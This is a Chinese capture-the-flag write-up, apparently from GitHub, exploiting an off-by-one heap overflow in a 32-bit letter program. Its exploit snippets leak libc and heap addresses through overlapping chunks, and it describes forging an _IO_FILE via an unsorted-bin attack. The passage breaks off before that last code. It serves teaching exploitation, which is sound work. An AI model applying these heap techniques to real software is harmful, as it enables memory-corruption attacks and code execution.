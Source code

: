 ![1](https://raw.githubusercontent.com/fade-vivida/CTF/master/llh/picture/1.JPG)  
存在一字节溢出漏洞（off by one）
## 2.利用过程 ##
### 2.1 libc地址泄露 ###

	add(0x48,'a','b\n')			#0
	delete(0)

	add(8,'a','b\n')			#1
	
	payload = '\x00'*0x20 + '\x41'
	add(8,'a',payload)			#2

	delete(1)

	payload = '\x00'*0x2c + p32(0x11)+ p32(setbuf_got)
	add(0x38,payload,'b\n')		#3
	
	check()
由分析可知，用户每次写一封letter时，会申请两个chunk，其中一个为用户自定义大小，保存信件内容。另一个为固定大小0x2c，为一个letter结构体。因此，根据该特性，采用如上所示chunk布局，则可以使chunk2改写chunk1的size字段，由于保存堆指针的数组也在堆中，因此可以修改其大小使其包含堆指针列表，发生overlap，从而改写堆指针列表，泄露出libc。
### 2.2 泄露堆地址 ###
	mainarena = libc.address + 0x1B0780
	lg('mainarena',mainarena)
	top_chunk = mainarena + 0x30

	add(8,'a','b\n')		#4
	add(8,'a','b\n')		#5
	delete(4)

	payload = '\x00'*0x20 + '\x51'
	add(8,'a',payload)		#6

	delete(5)

	payload = '\x00'*0x2c + p32(0x21) + p32(top_chunk-0xc)
	add(0x48,payload,'b\n')		#7

	check()
	ru('To: ')
	heap_base = u32(rv(4)) - 0x1b0
	lg('heap_addr',heap_base)
方法与泄露libc相同，打印main\_arena中top_chunk处的值，然后减去当前偏移，得到堆地址。
### 2.3 伪造\_IO\_FILE结构体 ###
通过实际调试发现该题目无法使用fastbin attack攻击，因此考虑使用unsortedbin attack改写\_IO\_list\_all指针，使其指向main\_arena结构体top\_chunk处，然后再计算\_IO\_FILE结构体中\_chain变量偏移地址（+0x34），该地址正好对向大小为0x30的smallbin链表。然后再次通过overlap，改写该smallbin内容为伪造的\_IO\_FILE结构体。  
代码如下所示:  
**注：由于该smallbin大小正好与letter结构体大小相同，伪造过程简直想吐血。。。**
